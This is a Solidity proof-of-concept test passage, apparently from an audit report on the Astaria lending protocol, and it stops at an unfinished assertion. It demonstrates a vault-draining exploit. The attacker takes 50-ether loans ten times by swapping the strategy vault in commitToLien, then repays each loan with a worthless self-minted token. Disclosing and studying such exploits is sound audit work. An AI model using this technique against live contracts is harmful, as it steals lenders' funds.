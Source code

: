 ```sh


    _lendToPrivateVault(
      Lender({addr: strategistOne, amountToLend: 500 ether}),
      privateVault
    );
    
    // Send the NFT to Collateral contract and receive Collateral token
    ERC721(tokenContract).safeTransferFrom(address(this),address(COLLATERAL_TOKEN),1,"");

    // generate valid terms
    uint256 amount = 50 ether; // amount to borrow        
    IAstariaRouter.Commitment memory c = _generateValidTerms({
      vault: privateVault,
      strategist: strategistOne,
      strategistPK: strategistOnePK,
      tokenContract: tokenContract,
      tokenId: 1,
      lienDetails: lienDetails,
      amount: amount,
      stack: new ILienToken.Stack[](0)
    });

    // Attack starts here
    // The borrower an asset which has no value in the market
    MockERC20 FakeToken = new MockERC20("USDC", "FakeAsset", 18); // this could be any ERC token created by the attacker
    FakeToken.mint(address(this),500 ether);
    // The borrower creates a private vault with his/her asset
    address privateVaultOfBorrower = __createPrivateVault({
      strategist: address(this),
      delegate: address(0),
      token: address(FakeToken)
    });

    uint8 i;
    for( ; i < 10 ; i ++) {
      // Here is the exploit: commitToLien on privateVault while passing differentVault in the strategy
      c.lienRequest.strategy.vault = privateVaultOfBorrower;   
      (uint256 lienId, ILienToken.Stack[] memory stack , uint256 payout) = IVaultImplementation(privateVault).commitToLien(
          c,
          address(this)
      );
      console.log("Take 50 ether loan#%d", (i+1));

      // necessary approvals
      FakeToken.approve(address(TRANSFER_PROXY), amount);
      FakeToken.approve(address(LIEN_TOKEN), amount);

      // pay the loan with FakeToken 
      ILienToken.Stack[] memory newStack = LIEN_TOKEN.makePayment(
        stack[0].lien.collateralId,
        stack,
        uint8(0),
        amount
      );
      console.log("Repay 50 FakeToken loan#%d", (i+1));
    }


    // assertion
```